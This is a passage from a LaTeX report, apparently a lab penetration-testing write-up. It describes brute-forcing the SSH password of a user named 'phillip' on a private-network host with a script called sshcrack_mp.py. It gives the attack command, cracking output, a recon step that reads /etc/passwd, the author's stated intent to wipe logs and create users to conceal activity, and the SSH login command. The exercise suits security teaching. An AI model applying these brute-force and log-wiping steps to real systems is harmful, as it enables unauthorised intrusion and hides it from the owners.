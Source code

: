 \documentclass[12pt]{report}
\newcommand{\term}[1]{\colorbox{light-gray}{\texttt{#1}}}
\begin{document}
The full code listing for the script can be found in Appendix~\ref{app:code:sshcrack_mp}.

To attack Price's SSH account \textit{('phillip')} at the IP address 192.168.254.132 on port 442 with the wordlist \textit{('passwords.txt')}, the script can run using:\\
\term{./sshcrack\_mp.py phillip:192.168.254.132:442 passwords.txt}\footnote{Usage in this way requires a virtual environment in \texttt{venv} with the pexpect dependency installed in it}

The output, with a section of the failed password attempts removed for brevity, is:
\begin{Verbatim}[frame=leftline]
Loaded 393 passwords from 'passwords.txt'
(001/393; 00.25%) Password != '0'
(002/393; 00.51%) Password != 'scorpio'
(003/393; 00.76%) Password != 'buddy'
...
(222/393; 56.49%) Password != 'trustno1'
(223/393; 56.74%) Password != 'newyork'
(224/393; 57.00%) Password == 'qwertyuiop'
Took 0.96 minutes to check 224/393 passwords at a rate of 3.88pw/s.
Performing recon...
Logging out.
\end{Verbatim}

From the output above, I could see that the script successfully broke into Price's SSH account using the password: \texttt{qwertyuiop}


\section{Examining Price's machine}
A reconnaissance phase is performed automatically as the last step in the script used to break into Price's SSH account. In this stage, the script calls a couple of commands over the SSH connection and writes the results into a \texttt{recon.txt} file on the attack machine. A copy of this file is included in Appendix~\ref{app:files:recon} -- included in this is a \term{cat} of the \texttt{/etc/passwd} file.

I could see from the \texttt{recon.txt} file that Price is a member of the sudo group. This made the rest of the investigation easier to conceal as I could wipe/modify logs and create new users in order to keep the investigation concealed.

Using the password discovered in the previous step of the investigation, I logged into Price's account via SSH to examine it and the machine remotely, and to gather more intelligence. A screenshot showing the \texttt{ssh} login is available in Appendix~\ref{app:screenshots:2}. The command that I used to connect over SSH was:\\
\term{ssh -p 442 phillip@192.168.254.132}
\end{document}
